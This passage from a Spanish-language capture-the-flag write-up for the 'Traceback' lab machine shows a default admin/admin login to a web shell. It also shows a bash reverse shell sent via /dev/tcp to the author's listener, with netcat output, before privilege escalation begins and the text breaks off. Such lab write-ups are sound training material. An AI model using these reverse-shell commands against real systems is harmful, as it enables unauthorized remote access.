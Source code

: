<img class='img' src='/assets/img/machines/Traceback/4.png' width='600'>
# Shell como webadmin
Aqui como ya tenia un posible nombre de usuario que la web me dio **Xh4H**. Intente el mismo en el user y password, pero no funciono. Entonces intente lo tipico admin y admin.
Y este si funciono.
<img class='img' src='/assets/img/machines/Traceback/5.png' width='800'>
En el apartado `Execute` de la web shell me envie una shell a un puerto de mi maquina.
bash -c "bash -i >& /dev/tcp/10.10.16.42/443 0>&1"
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.42] from (UNKNOWN) [10.129.193.96] 42978
bash: cannot set terminal process group (706): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$
```
Hice un tratamiento de la tty y tuve acceso como webadmin 
# Shell como sysadmin
Al enumerar un poco encontre que puedo ejecutar /home/sysadmin/luvit como sysadmin sin necesidad de una clave.
```bash
webadmin@traceback:/var/www/html$ sudo -l
Matching Defaults entries for webadmin on traceback:
```